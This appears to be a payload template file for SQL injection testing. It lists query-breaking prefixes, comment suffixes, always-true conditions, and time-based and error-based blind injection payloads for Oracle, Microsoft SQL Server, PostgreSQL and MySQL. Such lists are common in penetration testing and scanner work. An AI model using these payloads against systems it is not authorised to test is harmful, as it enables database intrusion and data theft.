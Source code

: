 # Global
## Prefix 0
' 
') 
'))  
) 
)) 
" 
\' 
\" 
'' 
"" 
## Prefix 1
AND 
OR 
; SELECT 
## Full Suffix
--
/*
%00
## Payload
1 == 1
'1' == '1
# Oracle
## Payload
dbms_pipe.receive_message(('a'),10)
TO_CHAR(1/0)
# Microsoft
## Payload
WAITFOR DELAY '0:0:10'
1/0
# PostgreSQL
## Payload
pg_sleep(10)
1/(SELECT 0)
# MySQL 
## Full Suffix
-- -
## Payload
SLEEP(10)